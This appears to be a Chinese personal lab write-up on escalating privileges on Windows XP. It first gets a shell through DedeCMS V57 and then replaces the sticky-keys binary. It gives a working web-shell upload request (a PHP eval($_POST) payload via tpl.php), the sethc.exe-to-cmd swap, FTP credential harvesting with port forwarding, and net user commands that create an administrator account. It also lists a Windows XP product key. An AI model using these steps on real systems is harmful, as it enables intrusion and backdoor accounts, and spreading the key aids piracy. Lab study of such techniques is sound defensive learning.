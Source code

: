 ```yaml
---
这个再稍微新一点的Windows上已经比较难实现了，因为新版的Windows已经把system目录权限设置的极高，可能管理员也不一定能做的到，更不要说低权限的应用用户
---
```


# 粘滞键弹shell提权

## 0x00 测试环境

* win xp pro sp3,
* wamp2.2
* dedecms V57\_UTF8\_SP2

## 0x01 后台getshell

[参照的是这个大佬的博客](https://www.cesafe.com/2621.html/2/)

{% embed url="https://www.cesafe.com/2621.html/2/" %}

利用的是dede可以注册全局变量的特性

先访问`dede/tpl.php?action=upload`获取token，然后访问dede/tpl.php?filename=&lt;木马文件名&gt;.lib.php&action=savetagfile&content=&lt;?php eval\($\_POST\['cmd'\]\); ?&gt;&token=&lt;刚才获取的你的token值&gt;

然后文件就写进去了

![&#x83DC;&#x5200;&#x8FDE;&#x63A5;](.gitbook/assets/image%20%2810%29.png)

## 0x02 提权

这个用户是我临时建的一个普通用户，没有添加用户的权限

 net user admin /active:yes

![](.gitbook/assets/image%20%282%29.png)

 粘滞键：c:\windows\system32\sethc.exe，把它用cmd替换

`tasklist /svc`查看所有安装的服务，这里是没有权限的。。。

扫出21 ftp，看西普的视频里演示的是有一种叫Zillaserver的ftp采用只能本地连接，然后这个ftp是在安装路径有储存用户名密码的配置文件的，然后lcx端口转发，外面就可以连接了，然后就可以操作数据库了

有一个问题就是远程的时候要先填好用户名 密码直接跳过就好，就进入远程界面了



![](.gitbook/assets/image%20%2814%29.png)

这个时候就有创建用户的权限了

接下来创建用户

 net user admin lovechina /add

 net localgroup Administrators admin /add  

就这样吧



## 总结：

感觉这个实验做的还是挺水的，因为环境问题重新搭了好几个服务器，一开始用哪个server2008 iis，但是后来发现server2008上的sethc.exe文件即使有管理员权限也修改不了，后来又转了xp专业版，才把问题全部解决了

而且这个漏洞感觉最好是拿到ftp对system32文件夹操作的权限，不然的话基本其他权限是没本法操作这个文件夹的

xp查看当前用户 `echo %username%`,如果你是system权限的话就会显示`%username%` 其余权限会直接显示用户名

附：itellyou上的xp pro激活码http://blog.51cto.com/myocode/649076，我用的是这个一次成功 QC986-27D34-6M3TY-JJXP9-TBGMD、

附xp基础命令合集：

{% embed url="https://itpro723.wordpress.com/2009/10/14/xp%E4%B8%8B%E5%8C%85%E6%8B%AC%E5%90%84%E9%A0%85%E6%9C%80%E5%AE%8C%E6%95%B4%E6%9C%80%E9%BD%8A%E5%85%A8%E7%9A%84dos%E5%91%BD%E4%BB%A4/" %}

